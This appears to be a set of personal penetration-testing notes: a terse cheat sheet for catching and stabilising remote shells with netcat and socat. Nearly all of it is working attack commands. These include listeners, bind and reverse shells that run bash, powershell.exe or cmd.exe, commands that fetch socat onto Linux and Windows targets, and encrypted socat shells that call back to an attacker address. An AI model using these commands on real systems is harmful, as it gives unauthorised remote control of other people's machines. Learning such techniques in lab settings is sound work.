 netcat

`nc -lvnp <port-number>`

sudo nc -lvnp 80
443, 53

bind shell:
nc <target ip> <chosen port>

`python3 -c 'import pty;pty.spawn("/bin/bash")'`
`export TERM=xterm`
CTRL + Z
`stty raw -echo; fg`


if cant see own terminal input. type 'reset'

`rlwrap nc -lvnp <port>`




change your terminal tty size.
`stty -a`
Note down the values for "rows" and columns:
Next, in your reverse/bind shell, type in:

`stty rows <number>`  

and

`stty cols <number>`



socat
`sudo python3 -m http.server 80`
`wget <LOCAL-IP>/socat -O /tmp/socat`
`Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`


`socat TCP-L:<port> -`

On Windows we would use this command to connect back:
`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes`

`socat TCP-L:<PORT> EXEC:"bash -li"`

On a Windows target we would use this command for our listener:
`socat TCP-L:<PORT> EXEC:powershell.exe,pipes`


socat TCP-L:53 FILE:`tty`,raw,echo=0

`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -`

`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`

socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0

socat OPENSSL:10.10.10.5:53,verify=0 EXEC:”bash -li”,pty,stderr,sigint,setsid,sane

